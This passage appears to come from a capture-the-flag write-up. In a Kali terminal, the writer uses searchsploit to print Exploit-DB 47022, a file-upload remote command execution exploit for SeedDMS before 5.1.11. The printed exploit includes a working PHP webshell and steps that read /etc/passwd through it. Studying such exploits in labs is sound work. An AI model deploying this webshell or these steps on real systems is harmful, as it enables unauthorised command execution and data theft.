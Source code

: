 ```shell
└─$ searchsploit -x php/webapps/47022.txt
  Exploit: SeedDMS versions < 5.1.11 - Remote Command Execution
      URL: https://www.exploit-db.com/exploits/47022
     Path: /usr/share/exploitdb/exploits/php/webapps/47022.txt
    Codes: CVE-2019-12744
 Verified: False
File Type: ASCII text



┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ cat /usr/share/exploitdb/exploits/php/webapps/47022.txt
# Exploit Title: [Remote Command Execution through Unvalidated File Upload in SeedDMS versions <5.1.11]
# Google Dork: [NA]
# Date: [20-June-2019]
# Exploit Author: [Nimit Jain](https://www.linkedin.com/in/nimitiitk)(https://secfolks.blogspot.com)
# Vendor Homepage: [https://www.seeddms.org]
# Software Link: [https://sourceforge.net/projects/seeddms/files/]
# Version: [SeedDMS versions <5.1.11] (REQUIRED)
# Tested on: [NA]
# CVE : [CVE-2019-12744]

Exploit Steps:

Step 1: Login to the application and under any folder add a document.
Step 2: Choose the document as a simple php backdoor file or any backdoor/webshell could be used.

PHP Backdoor Code:
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Step 3: Now after uploading the file check the document id corresponding to the document.
Step 4: Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser.

Note: Here "data" and "1048576" are default folders where the uploaded files are getting saved.
```

If we want to use the exploit, we need to login the website. But we have no passwd now.
